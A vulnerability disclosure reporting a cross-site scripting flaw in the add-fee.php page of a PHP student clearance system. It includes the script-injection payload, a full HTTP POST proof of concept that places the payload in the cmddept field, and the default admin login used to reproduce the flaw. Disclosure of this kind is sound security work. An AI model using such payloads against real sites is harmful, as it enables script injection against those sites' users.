 ## Vulnerability Description

[Web-Based Student Clearance System v1.0](https://www.sourcecodester.com/php/15627/web-based-student-clearance-system.html) was discovered to contain a cross-site scripting (XSS) vulnerability via the add-fee.php. It is an open source project from [https://www.sourcecodester.com/](https://www.sourcecodester.com/). This vulnerability allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the cmddept parameter.

1. BUG_Author: Tr0e
  
2. vendors: [Web-Based Student Clearance System in PHP Free Source Code](https://www.sourcecodester.com/php/15627/web-based-student-clearance-system.html);
  
3. The program is built using the xmapp/v3.3.0 and PHP/8.1.10 version;
  
4. Vulnerability location: /student_clearance_system_Aurthur_Javis/admin/add-fee.php
  

# Vulnerability Verification

[+] Payload:

```java
"><script>alert(1)</script>
```

POC：

```js
POST http://192.168.0.111:91/student_clearance_system_Aurthur_Javis/admin/add-fee.php HTTP/1.1
Host: 192.168.0.111:91
Content-Length: 122
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.111:91
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.111:91/student_clearance_system_Aurthur_Javis/admin/add-fee.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=rbcvgagjbbad1bbrbb62nukgmc
Connection: close

cmdsession=2020%2F2021&cmdfaculty=Select+faculty&cmddept=%22%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&txtamt=2000&btnAdd=
```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author (Log in with the default account and password:admin/admin123) and execute the Payload provided above.

The vulnerability is located at the "Fee Management - Add Fee" function, you shuold inserts Payload when you add new file，as shown in the following figure：
![image](https://user-images.githubusercontent.com/42080954/194541458-11332707-3261-4379-a257-909aee1e4048.png)
![image](https://user-images.githubusercontent.com/42080954/194541554-7b25bb74-0c17-4dad-a91f-ddf0a95b66a0.png)
![image](https://user-images.githubusercontent.com/42080954/194541621-a31a6cf2-bad7-447c-a354-4e500bf50770.png)
![image](https://user-images.githubusercontent.com/42080954/194541985-a4a84d09-65ff-4bce-806a-1cc573996dc9.png)


